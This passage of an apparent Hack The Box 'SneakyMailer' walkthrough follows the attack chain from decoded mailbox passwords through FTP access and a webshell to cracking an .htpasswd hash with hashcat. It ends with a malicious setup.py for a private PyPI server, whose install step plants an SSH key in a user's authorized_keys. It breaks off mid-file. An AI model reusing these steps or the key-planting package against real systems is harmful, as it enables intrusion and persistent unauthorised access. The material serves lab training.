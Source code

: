It is obviously url encoded so when we decode it we get the password
```
^(#J@SkFv2\[%KhIxKk(Ju`hqcHl<:Ht
```
We also get the email `paulbyrd@sneakymailer.htb`, with those credentials we can login to port 993 using `evolution` and we can see in 'sent emails' tab another set of credentials for user `developer` and the password
```
m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C
```

## FTP

Trying to login to ftp using those credentials and we get in. There is a directory called `dev` and we cd into it, we can see inside that it is the directory of the web-app on `dev.sneakycorp.htb` which we could find with `gobuster`. So we try to put a webshell in there and it works, we can access it from `http://dev.sneakycorp.htb/<filename>` and we get a shell as www-data!

## PyPI and python package creation

As www-data we can see inside `/var/www` the directory `pypi.sneakycorp.htb` so we add that subdomain to our /etc/hosts file. Going into that directory we can run `ls -la` and we can see file called `.htpasswd` and inside is:
```
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
```
We can see the username is pypi but the password is hashed, and if we check what hash type it is we see that it is MD5(APR), so we try to crack it using hashcat:
```
hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt
```
And we put the hash inside hash.txt file. After some time it gets cracked and the password is `soufianeelhaoui`. On the site we can see that we can install modules to box. So we can create the file called `.pypirc` inside `$HOME` on our machine and put the following inside:
```
[distutils]
index-servers=
    pypi
    testpypi

[pypi]
repository: http://pypi.sneakycorp.htb:8080/
username: pypi
password: soufianeelhaoui

[testpypi]
repository: http://pypi.sneakycorp.htb:8080/
username: pypi
password: soufianeelhaoui
```
Then we can make a setup.py file with the contents:
```
import setuptools

my_key = "<PUBLIC SSH KEY IN HERE>"
try:
	with open('/home/low/.ssh/authorized_keys', 'w') as f:
		f.write(my_key)
except Exception:
	pass

setuptools.setup(
    name="ryaagard",
    version="0.0.1",
    author="Example Author",
```